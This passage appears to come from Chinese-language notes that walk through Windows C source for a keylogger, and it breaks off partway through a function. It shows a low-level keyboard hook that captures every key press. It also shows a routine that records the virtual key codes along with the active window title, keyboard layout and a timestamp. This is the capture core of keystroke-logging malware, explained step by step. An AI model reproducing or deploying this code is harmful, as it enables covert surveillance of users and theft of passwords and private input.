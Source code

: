 通过钩子处理函数**`lp_Hookfunc`**的参数，可以获取和处理键盘事件的相关信息，并根据需要决定是否阻止事件传递或进行特殊处理

```c
LRESULT __stdcall lp_Hookfunc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if (nCode >= 0) //nCode分为3种情况
    {
        if (wParam == WM_KEYDOWN)// 表示按下一个键。
        {
            kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);//指向的是一个KBDLLHOOKSTRUCT
            output_bufRead(kbdStruct.vkCode);//取出其中的虚拟键码
        }
    }

    // call the next hook in the hook chain. This is nessecary or your hook chain will break and the hook stops
    return CallNextHookEx(g_hook, nCode, wParam, lParam);
}
```

### output_bufRead

- 代码
  
    ```c
    int output_bufRead(int virtual_key)//传入的是虚拟键码
    {
        std::stringstream output;
        static char lastwindow[256] = "";//静态的,类似于全局
        if ((virtual_key == 1) || (virtual_key == 2))
        {
            return 0; //忽略
        }
    
        HWND curGround = GetForegroundWindow();//确定当前活动窗口，即用户当前正在使用的窗口。它可以用于确定哪个窗口接收键盘输入、鼠标点击等用户输入事件
        DWORD threadID;
        HKL keyboard_layout = NULL;
    
        if (curGround)
        {      
            threadID = GetWindowThreadProcessId(curGround, NULL);
            keyboard_layout = GetKeyboardLayout(threadID);//键盘布局
        }
    
        //作用就算是否要换行重新显示附带标题
        if (curGround)
        {
            char cur_window_title[256];
            GetWindowTextA(curGround, (LPSTR)cur_window_title, 256);//获取焦点窗口的名字
    
            if (strcmp(cur_window_title, lastwindow) != 0)
            {
                //再次输入的时候,窗口发生改变
    
                strcpy_s(lastwindow, sizeof(lastwindow), cur_window_title);
                time_t t = time(NULL);
                struct tm tm;
                localtime_s(&tm, &t);
                char cur_time[64];
                strftime(cur_time, sizeof(cur_time), "%c", &tm);
    